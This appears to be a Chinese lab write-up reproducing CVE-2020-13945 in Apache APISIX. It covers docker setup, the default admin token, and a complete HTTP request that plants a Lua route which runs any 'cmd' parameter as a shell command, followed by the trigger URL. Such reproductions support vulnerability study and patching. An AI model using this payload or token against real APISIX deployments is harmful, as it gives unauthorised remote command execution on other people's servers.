


Apache APISIX 默认密钥漏洞 CVE-2020-13945¶
漏洞描述¶
Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token edd1c9f034335f136f87ad84b625c8f1，攻击者利用这个Token可以访问到管理员接口，进而通过script参数来插入任意LUA脚本并执行。
参考链接：
- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187
环境搭建¶
执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：
docker-compose up -d
环境启动后，访问http://your-ip:9080即可查看到默认的404页面。
漏洞复现¶
利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406
{
"uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M",
"upstream": {
"type": "roundrobin",
"nodes": {
"example.com:80": 1
}
}
}

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：
http://your-ip:9080/attack?cmd=id
